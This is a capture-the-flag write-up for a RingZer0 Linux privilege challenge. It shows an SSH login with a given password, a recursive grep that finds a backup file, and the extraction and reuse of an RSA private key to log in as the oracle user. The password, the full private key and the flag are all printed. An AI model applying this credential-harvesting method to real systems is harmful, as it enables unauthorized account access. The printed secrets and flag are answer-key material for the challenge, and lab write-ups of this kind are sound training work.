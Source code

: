 ##### [Level 4 SysAdmin Linux Level Up](http://ringzer0team.com/challenges/146)
##### Answer
At first moment we must login using ssh:  
```
  ssh morpheus@for01.ringzer0team.com -p 13375
```
Then you asked for password and you will enter `VNZDDLq2x9qXCzVdABbR1HOtz` as a password, Now we wanna access oracle accessing an account needs password or maybe ssh RSA key login so first we search for `oracle` in our root directory:  
```
  $ grep 'oracle' -R / 2>/dev/null
  Binary file /backup/c074fa6ec17bb35e168366c43cf4cd19 matches
  Binary file /var/run/utmp matches
  Binary file /var/cache/apt-show-versions/apackages matches
  Binary file /var/cache/man/index.db matches
```
It seems oracle has backed his profile up so we use `strings` command too see the backup file
```
  $ strings /backup/c074fa6ec17bb35e168366c43cf4cd19
  .
  .
  .
  home/oracle/.ssh/id_rsa
  0000600
  0001750
  0001750
  00000003217
  12310211305
  016007
  ustar  
  chamilton
  chamilton
  -----BEGIN RSA PRIVATE KEY-----
  MIIEpAIBAAKCAQEAqBIMY0jPs4dvQqsyHreYccCOIMFrBy+el5Td8TNc8pQqINNr
  WSefxANe4b0EaAZofvZbBGrHipyB6X+FgugXYqwB0uem06uTGnIdHAZyHV6IE9f/
  hLCm+9nWOJfUvPNFbMaIizvzMVhO6GTGyxJ8zh/ASQXYBHSzyOxkmqDLB7zFteyJ
  F7hv6s6W20TmpjhMQtOC0mYwn64ZCsVi2d1c7tFiw37cOutT1LfZaaAUBIwdpvL6
  BFjqpNkxzwm105eFTDt4WZNKOZ9nOns18MHBHFOXk8WgAxC6gqtE2gr7cTBZsbwv
  jXrte8oTtAWCv3YHSECH91NzE3DKVktCwr1bjQIDAQABAoIBAQCdefu9c1WZY4bu
  MrYNbf0aaE9Dhbcgzo+Me+HQxE2MxSMMCsyEhsn9wSK/5Hkidw6mF3KEmwBIcgiP
  nfqdA5YV0BENahw4LITyvIVl4uw9dHuQDEzQKSzswdkkwa6FNHOSThtWSl+9ln6o
  5PQXBkWGZN2oDh+vXSGvWz+QWqSho8vufmTtYntfFPAfVfcyp8BtiUgKQh069uGg
  XKnehmkrHoW9gQ2Lo0uaFWcTIGm1vsgBd7L4cfb98jDB63H+Lhf4UPYv4WmH2rrj
  bnk5lAU71JK4QsPnnOx1PA685p2e5mEfh0LKRKq9Fx3+umbGPJGvgcjobtXaW9OT
  mpaz6ZPBAoGBAM+diN8s/osQdi8odS9+HUWVZBa9Z2Dn0X2IlSxWK9u/UclhjYgP
  i2KXEY0wRV+ZiXURmrFNVxgA/EJ9BOgptSZNmi9fEdfnVB4L11T7HFny/J8u3sXt
  dn0OqHmf5ZEPtV7m0bK0jtznTgTTuBI9yXvRgHO2HQPCshdP7GIgt++lAoGBAM89
  Pd7HyMYnh0ancCTICkVIIWF6Ylf20BKz4Zwy9tYASCxY3iFllBdOXw/UgCnmJseQ
  73Dcimi5OEyUckOp7xX4HTwidFVbxfNeC0ZfsPbd22qSDcw5orpQMoDy3iP+bPJh
  SgwtusqotGjm0jTpnhqRV5x6rchzkMYwF8/WkvfJAoGBAMeem6yh0XiaclfzWYE5
  jCGMezjWEeD949IEkhGYJQFbmeK79l49O/KmeAy9veYmdSDntUoGp9f/kozHMgGb
  oH5cnQQxL7HczWc6UWd3LhJabIUNhsreAFBL2Ldgg1UPun6uBjACJV7G06AWhWSc
  ne58SDp5frpP5/Y8NXdAKDq1AoGAYCSFQ4lj96n29CxRtn6nZSTld5eTcEOsnECf
  dhuesAFJemlwBAZgAb/2Eh3/p3CCpSr0KmPmQldLaxujNwjrRkHpLjC9z6vX1ePX
  TzqtmpmqZXKEvC4w9EaoZ3JE5GXwnTHNbID6m3JQ4CnVc36+Po0XHB096jTTAV7m
  bSGa5SECgYBE2IuW1pk2pOZ+FDtKltWHk8KK89QmGsFf2YnVZ/FsAkPnayeTkmMz
  AWxRP/W/Uj5ypw7KjprQee31hkisBG/ZPBvQdjAvxF7m4usuEN2Nkb0FTIjZHYbD
  iPOmPHIUlwwL8UVzDQUzXhegSB4GUeP/06T/eM5PPB8SX0ZaHIw1wQ==
  -----END RSA PRIVATE KEY-----
  .
  .
  .
```
So now we have rsa private key, Then easily we store the key in a file such as `id_rsa` and change the file's permission
```
$ echo $RSAKey > id_rsa
$ chmod 600 id_rsa
```
Then it's enough to ssh using `id_rsa` file as a key, thus we have:
```
  $ ssh oracle@for01.ringzer0team.com -p 13375 -i id_rsa
  .
  .
  .
  Last login: Wed Jul  9 13:28:06 2014 from 37.255.26.252
  oracle@forensics:~$
```
Now in the oracle's shell simply read `flag.txt` file and decode it by a [base64 decoder](http://ringzer0team.com/tool) and the result is `FLAG-GIGs1Wq6V6SsZ9h4aQgpGgdbdP`

##### NOTE: It seems the backup file changes each time so some contents are wrong

Keep calm and code in Linux :O
